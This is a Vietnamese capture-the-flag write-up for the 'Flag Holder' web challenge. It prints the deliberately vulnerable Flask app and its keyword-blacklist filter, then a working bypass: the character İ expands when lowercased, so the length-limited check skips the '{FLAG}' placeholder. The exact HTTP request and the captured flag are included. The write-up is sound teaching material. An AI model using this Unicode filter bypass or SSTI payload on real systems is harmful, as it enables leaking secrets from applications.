





# Flag Holder



Hint: <a href="#" onclick="alert('Server-side Template Injection liệu có khả thi ??? Hay còn một cách nào khác ????? 🤔🤔🤔🤔🤔');">Hint 1</a> - <a href="#" onclick="alert('`if word in string.lower()[:MAX_LENGTH]:`');">Hint 2</a>

Giao diện trang web là một form điền template và variable tương ứng



Sau khi submit thì trả về một trang web render với template và variable đã điền



Challenge này cho mình source code ở `/source` (Ctrl + U ở trang đầu tiên là thấy)

```python
from flask import Flask, request, render_template_string, render_template, make_response
import os

app = Flask(__name__)
FLAG = os.getenv("FLAG") 
MAX_LENGTH = 20

def waf(string):
    blacklist = ["{{", "_", "'", "\"", "[", "]", "|", "eval", "os", "system", "env", "import", "builtins", "class", "flag", "mro", "base", "config", "query", "request", "attr", "set", "glob", "py"]
    for word in blacklist:
        if word in string.lower()[:MAX_LENGTH]:
            return False
    return True

@app.route('/')
def hello():
    return render_template("index.html")

@app.route("/render", methods = ["GET"])
def render():
    template = request.args.get("template")
    variable = request.args.get("variable")
    if len(template) == 0 or len(variable) == 0:
        return "Missing parameter required"
    if len(template) > MAX_LENGTH or len(variable) > MAX_LENGTH:
        return "Input too long"
    if not waf(template) or not waf(variable):
        return "Try harder broooo =)))"
    data = template.replace("{FLAG}", FLAG).replace("{variable}", variable)
    return render_template_string(data)

@app.route("/source", methods = ["GET", "POST"])
def source():
    response = make_response(open("./app.py", "r").read(), 200)
    response.mimetype = "text/plain"
    return response

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

Như trong source code đã cho thì mình thu thập được một vài thông tin, và mình dự đoán trang web này có lỗ hổng SSTI. 

Sau khi lấy dữ liệu từ các param thì chương trình có thực hiện một số bước kiểm tra

```python
	// kiểm tra độ dài > 0
	if len(template) == 0 or len(variable) == 0: 
        return "Missing parameter required"
    // đảm bảo độ dài của param <= 20
    if len(template) > MAX_LENGTH or len(variable) > MAX_LENGTH: 
        return "Input too long"
    // thực hiện kiểm tra qua hàm waf()
    if not waf(template) or not waf(variable):
        return "Try harder broooo =)))"
    // hàm waf()
    def waf(string):
        blacklist = ["{{", "_", "'", "\"", "[", "]", "|", "eval", "os", "system", "env", "import", "builtins", "class", "flag", "mro", "base", "config", "query", "request", "attr", "set", "glob", "py"]
        for word in blacklist:
            if word in string.lower()[:MAX_LENGTH]:
                return False
        return True
```

Có thể thấy trong hàm `waf()` đã blacklist kha khá các class và cả bao gồm chuỗi `flag` nữa. Mà độ dài của các param phải `0 < param <= 20` nên khá là khó để thực hiện SSTI

```python
    data = template.replace("{FLAG}", FLAG).replace("{variable}", variable)
    return render_template_string(data)
```

Sau khi kiểm tra đầu vào thì chương trình thực hiện replace `replace("{FLAG}", FLAG)` và `replace("{variable}", variable)`, nhưng mà `flag` đã bị blacklist rồi nên mình không thể render nó ra được

Mình đã mò một hồi khá lâu mà chỉ có thể trigger SSTI được như này thôi :). Vì độ dài này không đủ để cho mình thực hiện attack được :)



Sau khi Hint 1 được đưa ra thì mình đã bỏ qua trường hợp SSTI và chuyển hướng qua tìm bug khác ở trong bài này :D

Đọc kĩ từng dòng code và mình thấy dòng `if word in string.lower()[:MAX_LENGTH]:` là dòng có khả năng nhất thôi :DD. Liệu rằng... có một kí tự nào đó khi lower lại có độ dài > 1 hay không vì nó kiểm tra trong độ dài `[:20]`, trong trường hợp này nó sẽ bị tràn và khả năng không có kiểm tra được các kí tự ở cuối

Tìm kí tự này

```python
for i in range(10000):
    if len(chr(i).lower()) > 1:
        print(i)
// output: 304, kí tự này là: İ
```

URL encode và gửi request

```
GET /render?template=%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0{FLAG}&variable=longkd719 HTTP/1.1
Host: 103.163.25.143:20105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://103.163.25.143:20105/
Upgrade-Insecure-Requests: 1


```

Kết quả



`Flag: KMACTF{WAF_1s_s0_5tR0nG_BuT_pYth0n_1s_s0_H4rd}`
